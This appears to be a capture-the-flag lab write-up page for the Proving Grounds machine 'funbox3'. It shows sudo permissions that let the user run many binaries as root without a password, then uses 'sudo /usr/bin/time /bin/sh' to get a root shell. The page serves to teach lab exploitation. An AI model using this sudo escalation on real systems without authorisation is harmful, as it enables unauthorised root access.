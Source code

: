 ```yaml
---
layout: default
title: Time
parent: Sudo
nav_order: 7
---
```


# Time

---

## Check Sudo Permissions for Tony

```bash
tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD:
        /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh

```

## Check GTFOBins for Sudo

Review the above _/usr/bin_ binaries to see which can be exploited with Sudo to get a root shell.

![gtfobins](../../../../assets/images/ctfs/proving_grounds/funboxeasy/gtfobins.png)

```bash
tony@funbox3:~$ sudo /usr/bin/time /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

```
